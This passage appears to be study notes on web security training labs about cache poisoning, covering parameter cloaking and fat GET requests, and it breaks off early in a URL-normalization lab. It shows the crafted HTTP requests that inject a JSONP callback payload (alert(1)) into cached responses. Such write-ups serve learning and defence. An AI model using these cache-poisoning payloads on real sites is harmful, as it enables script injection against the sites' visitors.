 To solve the lab, use the parameter cloaking technique to poison the cache with a response that executes alert(1) in the victim's browser.

Manual testing: utm\_content parameter enabled but not effect caching

```
GET /js/geolocate.js?callback=setCountryCookie&utm_content=evil;callback=evilone HTTP/1.1

In the response:
Set-Cookie: utm_content=evil; Secure; HttpOnly
...
const setCountryCookie = (country) => { document.cookie = 'country=' + country; };
const setLangCookie = (lang) => { document.cookie = 'lang=' + lang; };
evilone({"country":"United Kingdom"});
```

**Solution:**

```
GET /js/geolocate.js?callback=setCountryCookie&utm_content=evil;callback=alert(1) HTTP/1.1
```

### Lab: Web cache poisoning via a fat GET request

This lab is vulnerable to web cache poisoning. It accepts GET requests that have a body, but does not include the body in the cache key. A user regularly visits this site's home page using Chrome.

To solve the lab, poison the cache with a response that executes alert(1) in the victim's browser.

```
GET /js/geolocate.js?callback=setCountryCookie HTTP/1.1
...
callback=evilone

In the response:
const setCountryCookie = (country) => { document.cookie = 'country=' + country; };
const setLangCookie = (lang) => { document.cookie = 'lang=' + lang; };
evilone({"country":"United Kingdom"});
```

**Solution:**

```
GET /js/geolocate.js?callback=setCountryCookie HTTP/1.1
...
callback=alert(1)
```

### Lab: URL normalization

This lab contains an XSS vulnerability that is not directly exploitable due to browser URL-encoding.

To solve the lab, take advantage of the cache's normalization process to exploit this vulnerability. Find the XSS vulnerability and inject a payload that will execute alert(1) in the victim's browser. Then, deliver the malicious URL to the victim.

```
GET /test HTTP/1.1

In the response:
<p>Not Found: /test</p>
```

